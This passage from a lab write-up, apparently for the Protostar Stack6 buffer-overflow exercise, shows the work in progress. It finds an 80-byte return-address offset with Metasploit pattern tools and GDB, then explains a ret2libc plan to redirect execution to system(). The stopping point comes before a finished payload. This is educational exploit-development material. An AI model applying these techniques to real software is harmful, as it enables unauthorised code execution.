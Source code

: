 ```c
}

int main(int argc, char **argv)
{
  getpath();
}

```
### Overview 
`Stack6 looks at what happens when you have restrictions on the return address. This level can be done in a couple of ways, such as finding the duplicate of the payload ( objdump -s will help with this), or ret2libc , or even return orientated programming.`
### Exploit

First we need to find the offset. We can use `pattern_create.rb` to create our uniqe offset.
```shell
ap3x@kali-exploitdev:~$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```
Now we can paste our unique string into the user input in GDB.

```shell 
(gdb) c
Continuing.
input path please: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
got path Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb) 
```
When convert `0x37634136` to ASCII using python it's `6Ac7`.

```shell
ap3x@kali-exploitdev:~$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q  6Ac7 -l 100
[*] Exact match at offset 80
```
Now that we have verified that our offset is at 80 bytes we can begin to develop our exploit. Something that is very important to point out about the code is that the return addresses starting with `0xbf` are filtered, which essentially stops us from executing on the stack. Although there is a way we can get around this using ret2libc. The ret2libc takes advantage of the fact that the libc library is loaded into memory and its also used by the program. So we can set the return address to the address of any function in the C library. In order to take control of the program we will be using `system()`. We will over rite part of the stack that was set prior to calling `getpath()` and manually inject stack frames to call `system()`. We will specifically be overwriting the return address of `getpath()` with `system()`.
